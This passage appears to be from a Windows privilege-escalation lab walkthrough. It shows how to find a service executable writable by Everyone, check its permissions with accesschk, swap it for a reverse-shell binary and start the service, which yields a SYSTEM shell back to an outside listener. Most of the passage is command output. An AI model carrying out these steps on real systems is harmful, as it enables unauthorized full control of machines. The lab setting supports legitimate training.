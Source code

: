 ```powershell
   =================================================================================================

-- Snip --
```

This shows that the service "filepermsvc" has an executable (*C:\Program Files\File Permissions Service\filepermservice.exe*) that is modifiable by Everyone. 

2. Verify permissions
> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```powershell
C:\PrivEsc\tools>.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW MSEDGEWIN10\IEUser
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

3. Backup executable and then replace with malicious payload and start service.
> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp\
> copy /Y C:\PrivEsc\tools\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"   
> net start filepermsvc
```powershell
C:\PrivEsc\tools>copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
        1 file(s) copied.

C:\PrivEsc\tools>copy /Y C:\PrivEsc\tools\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
copy /Y C:\PrivEsc\tools\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
        1 file(s) copied.

C:\PrivEsc\tools>net start filepermsvc
net start filepermsvc
[*] Command shell session 12 opened (192.168.1.164:53 -> 192.168.1.174:52883) at 2021-10-26 15:04:42 -0400
C:\PrivEsc\tools>sessions 12

[*] Backgrounding session 11...
[*] Starting interaction with 12...

C:\Windows\system32>whoami
whoami
nt authority\system
```
